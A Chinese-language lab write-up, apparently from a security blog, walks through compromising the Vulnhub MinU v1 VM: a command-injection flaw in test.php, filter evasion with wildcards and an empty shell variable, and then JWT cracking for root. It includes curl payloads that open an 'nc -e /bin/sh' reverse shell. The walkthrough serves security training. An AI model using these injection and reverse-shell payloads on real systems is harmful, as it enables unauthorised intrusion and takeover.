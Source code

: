 ```yaml
---
layout: post
title: Vulnhub-MinUV1-writeup
description: >
  这是vulnhub上靶机MinUV1的writeup
blog: true
author: DshSec
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```

#### 靶机相关链接
  + 靶机介绍：["靶机介绍主页"](https://www.vulnhub.com/entry/minu-1,235/)
  + 下载链接1:["靶机下载(Goole云盘)"](https://drive.google.com/open?id=1n_zpZ4M8wpEl5U_o5455MAiuwhCzStlh)
  + 下载链接2：["靶机下载(镜像)"](https://download.vulnhub.com/minu/MinUv1.ova.7z)
  + 下载链接3：["靶机下载(Torrent)"](https://download.vulnhub.com/minu/MinUv1.ova.7z.torrent)
  + 下载靶机后，通过Virtualbox导入虚拟机即可使用


#### 测试过程
1. 下载靶机后，使用Virtualbox导入后开机直接获得IP，省掉了主机存活发现的环节
  ![Full-width image](/assets/img/docs/MlnUV1/1.png)
2. 拿到后直接使用nmap进行扫描看开起来那些服务，扫描仅发现了80端口,(一般先进行常规端口扫描，全端口在有必要的情况下可在对web或者其他常见服务进行测试时进行扫描，可有效节省时间)
    ![Full-width image](/assets/img/docs/MlnUV1/2.png)
3. 访问80端口发现是Apache默认页面，大致查看过后并无其他发现，用dirb或者wfuzz(wfuzz的使用教程有一个老哥介绍很清楚可以去看下一下，['此处为传送门'](https://www.freebuf.com/author/m0nst3r)进行一下目录扫描
    ![Full-width image](/assets/img/docs/MlnUV1/3.png)
    ![Full-width image](/assets/img/docs/MlnUV1/4.png)
4. 两者均发现了test.php,按照惯例进行访问并哪里不会点哪里；点的时候要注意地址栏的变化；惯例进行源码的查看，发现这个链接有存在文件包含漏洞的嫌疑
    ![Full-width image](/assets/img/docs/MlnUV1/5.png)
    ![Full-width image](/assets/img/docs/MlnUV1/6.png)
5. 依旧用wfuzz试一下，通过wfuzz可以省去很多手工上的繁琐，偷偷懒
    ![Full-width image](/assets/img/docs/MlnUV1/7.png)
6. 通过wfuzz的结果可以看到存在大量的字符数为1986的页面，尝试访问一个发现非常正常，于是可以通过--hh将字符数为1986的排除掉，这样结果更加精简了
    ![Full-width image](/assets/img/docs/MlnUV1/8.png)
    ![Full-width image](/assets/img/docs/MlnUV1/9.png)
    ![Full-width image](/assets/img/docs/MlnUV1/10.png)
7. 通过对剩下几个payload进行访问，发现并非文件包含漏洞，而是命令执行漏洞
    ![Full-width image](/assets/img/docs/MlnUV1/11.png)
    ![Full-width image](/assets/img/docs/MlnUV1/12.png)
8. 经过尝试发现很多命令执行不了，可以判断该处漏洞应该存在过滤手段
    ![Full-width image](/assets/img/docs/MlnUV1/13.png)
9. 在测试过程中发现rev命令是可用的，rev命令可以实现字符的反序输出，可以通过rev来读源码    
>
  **NOTE**:rev命令 将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推
    ![Full-width image](/assets/img/docs/MlnUV1/14.png)

10. 尝试通过rev命令来读取test.php的内容
    ![Full-width image](/assets/img/docs/MlnUV1/15.png)
11. 由于反序输出不便阅读，可以在terminal中通过管道符进行再次反序然后即可得到正序的文件内容
    ![Full-width image](/assets/img/docs/MlnUV1/16.png)
12. 可以看到test.php中执行的命令是shell_exec('cat'.GET['file'])，获取file参数然后cat出来，既然知道文件内容了就可以进行payload的构造，在payload的构造中有很多种方法，但是需要不断的尝试有哪些限制字符。对参数进行fuzz一下看哪些是可用的(此处需要自己构造字典，想好要执行那些命令，然后分别用不同的方式表示出来形成字典再fuzz)
    ![Full-width image](/assets/img/docs/MlnUV1/17.png)
13. 根据fuzz的结果得出部分可用字符，通过这些字符可以组合payload，此处列举三个：(其中20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK为nc -e /bin/sh 192.168.145.1 4444的base64编码)，可自行发散思路测试多种命令，组合出多种payload
```shellcode
curl -s "http://192.168.145.5/test.php?file=%26/bin$u/echo$u%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u%20-d|/bin$u/sh$u"
curl -s 'http://192.168.145.5/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/u?r/b?n/b?se64%20-d|/b?n/sh'
curl -s 'http://192.168.145.5/test.php?file=%26/b?n/nc$u%20-e%20/b?n/sh$u%20192.168.145.1%204444'
```
  此处主要利用到了两个知识点：1是linux下所有皆文件，因此各种可执行程序都是在可找到的文件，而在找文件的过程中是可以利用通配符的，可以利用该特性对过滤进行绕过，另一点就是使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配此处参见['secist'](https://www.freebuf.com/author/secist)大佬['绕过CloudFlare WAF和ModSecurity OWASP CRS3核心规则集的技巧介绍'](https://www.freebuf.com/articles/web/184414.html)的文章

14. 现在可以getshell了，先监听端口4444(（由于我的网络是靶机为仅host模式，而kali为nat模式通过将物理机的4444网卡映射到了kali上，所以此处看到的是来自10.0.2.2的连接，这不是重点）)
    ![Full-width image](/assets/img/docs/MlnUV1/18.png)
15. 此时拿到的只是shell,并非tty:使用SHELL=/bin/bash script -q /dev/null可以将shell提升成tty,找一下有没有可以直接拿来提权的程序，可惜在我的知识中这些都好像没有，泪奔.....
    ![Full-width image](/assets/img/docs/MlnUV1/19.png)
16. 看一下Linux内核版本，看是否有可利用的漏洞，找到可用的然后gcc编译一下
    ![Full-width image](/assets/img/docs/MlnUV1/20.png)    
    ![Full-width image](/assets/img/docs/MlnUV1/21.png)
    ![Full-width image](/assets/img/docs/MlnUV1/22.png)  
17. EXP准备就绪后开始准备上传，先在本机用python搭个简易的web服务器，然后找一个可写文件夹，尝试下载下来
    ![Full-width image](/assets/img/docs/MlnUV1/23.png)
    ![Full-width image](/assets/img/docs/MlnUV1/24.png)
    ![Full-width image](/assets/img/docs/MlnUV1/25.png)    
18. 很尴尬的是发现下载下来大小为0，查看一下磁盘发现磁盘满了。不知道这是作者有意的还是我的环境有问题.....所以通过这种方式提权看来要拉闸了
    ![Full-width image](/assets/img/docs/MlnUV1/26.png)
19. 在系统瞎逛逛，发现了home目录下bob的文件夹有隐藏文件(一般home目录下的要重点关注)，查看一下发现存在一个__pw__的文件，里面写的东西我也看不懂，直觉告诉我这很重要。于是找了国外大佬的文章看解析。发现是['Json web tokens'](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    ![Full-width image](/assets/img/docs/MlnUV1/27.png)
20. 尝试使用['jwtrack'](https://github.com/brendan-rius/c-jwt-cracker)进行破解,破解成功。得到密钥是mlnV1
    ![Full-width image](/assets/img/docs/MlnUV1/28.png)
21. 尝试登陆，发现登陆root成功，并且在root文件夹下发现flag文件，cat一下
    ![Full-width image](/assets/img/docs/MlnUV1/29.png)
>
**附上两位大佬解析的地址**:
+ https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939
+ https://hackso.me/minu-1-walkthrough/
